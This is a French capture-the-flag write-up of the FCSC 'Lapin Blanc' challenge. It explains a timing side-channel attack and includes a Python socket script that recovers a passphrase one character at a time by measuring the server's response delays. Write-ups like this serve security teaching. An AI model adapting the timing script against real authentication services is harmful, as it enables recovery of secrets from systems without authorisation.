




# Side Channel and Fault Attacks - Lapin Blanc

## Challenge description



## Résolution

Le principe des challenges types "side channel / fault attacks" est d'utiliser des moyens indirects pour récupérer de l'information. La première étape va donc être de jouer un peu avec le serveur pour voir ce qu'on peut faire. On se connecte donc au serveur avec netcat :



On teste quelques mots de passes, et on cherche ce qui pourrai être exploitable. On remarque que le serveur envoie toujours un chiffre avec un message, un peu comme il enverrai l'heure. On va donc supposer que c'est une sorte de mesure du temps de calcul.

A l'aide d'un script python, on va tester cette possibilité : on suppose que si le serveur compare le mot de passe entré avec le vrai mot de passe lettre par lettre, alors il va mettre plus de temps si la première lettre est bonne. On va tester tout les charactère qui pourraient être dans le mot de passe, et voir si on observe une différence notable de temps. 

Le temps pour une être va donc être `[temps affiché à la réponse]-[temps affiché pour le début de la reflexion]`.

A l'aide de ce script, on teste les lettres de l'alphabet, et la ponctuation :

```python
# nc challenges.france-cybersecurity-challenge.fr 2350

import socket
import time
import string

HOST = 'challenges.france-cybersecurity-challenge.fr'
PORT = 2350

client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client.connect((HOST, PORT))
print( 'Connexion vers ' + HOST + ':' + str(PORT) + ' reussie.')

def recv_bis(clientt, printout=True, size=4096):
       data = clientt.recv(size)
       datastr =data.decode("utf-8")
       if printout : print(datastr, end="")
       return datastr

def send_check(clientt, msg):
    #print(msg+"\n")
    n = clientt.send((msg+"\n").encode("utf-8"))
    if (n != len((msg+"\n"))):
            print( 'Erreur envoi.')

def test(clienttest, val):
      print(val)
      send_check(clienttest, val)
      time.sleep(0.18)
      doorthink = recv_bis(clienttest)
      time_one = doorthink.split(" ")[0]
      time_one = time_one[1:-1]
      time_end = doorthink.split(" ")[4]
      time_end = (time_end.split("[")[-1])[:-1]
      print(time_end, time_one)
      return int(time_end)-int(time_one)

time.sleep(3)
recv_bis(client)

possible = list(string.ascii_letters + string.punctuation + string.digits + " ")
print(possible)
passphrase = dict()

for let in possible :
    mytest = ""+let
    val = test(client, mytest)
    passphrase[mytest]=val

print(passphrase)
max_time = max(passphrase.values())
print("for the letters : ", [key for key, value in passphrase.items() if value == max_time])

print( 'Deconnexion.')
client.close()
```



On voit que I est la lettre avec le plus haut temps de reflexion. On suppose donc que c'est bien une sorte de calcul du temps, et qu'on peut donc retrouver toutes les lettres suivantes de la même façon. On va tester au fur et à mesure avec une lettre en plus a chaque fois, et on va retrouver la phrase : *"I'm late, I'm late! For a very important date!"*. On obtient alors ~~le flag qu'on submit plus vite que lucky luke parce que le fcsc se termine dans littéralement 30s~~ :

